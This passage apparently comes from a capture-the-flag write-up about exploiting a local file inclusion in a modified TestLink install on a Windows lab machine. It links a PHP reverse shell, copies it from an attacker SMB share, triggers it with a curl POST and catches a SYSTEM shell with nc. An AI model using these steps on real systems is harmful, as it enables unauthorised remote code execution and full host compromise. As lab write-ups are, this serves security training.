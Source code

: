     // some session and settings stuff from original index.php
    require_once('lib/functions/configCheck.php');
    checkConfiguration();
    require_once('config.inc.php');
    require_once('common.php');
    require_once('attachments.inc.php');
    require_once('requirements.inc.php');
    require_once('testcase.class.php');
    require_once('testproject.class.php');
    require_once('users.inc.php');
    require_once($PiperCoinAuth);    <-- I can control in post
    testlinkInitPage($db, true);  
    ...[snip]...



That means I can provide a path anywhere on the host, and it will be
included.

### Shell as system

I'll grab a [Windows php reverse
shell](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php),
update the ip and port, and get it onto the system:



    C:\>copy \\10.10.14.14\share\php-rev-shell.php \users\nelson\appdata\local\temp\a.php
    copy \\10.10.14.14\share\php-rev-shell.php \users\nelson\appdata\local\temp\a.php
            1 file(s) copied.



Trigger it with `curl`, with `PiperID` to get past
`if(isset($_POST['PiperID']))`, and setting `PiperCoinID` as my shell
location:



    root@kali# curl -X POST http://localhost:5080/testlink/linkto.php -d 'PiperCoinID=C:\Users\Nelson\AppData\Local\Temp\a.php&PiperID' -x http://127.0.0.1:8080



I get a shell as system:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.112.
    Ncat: Connection from 10.10.10.112:49277.
    b374k shell : connected

    Microsoft Windows [Version 6.0.6002]
    Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

    C:\Windows\Temp>whoami
    nt authority\system

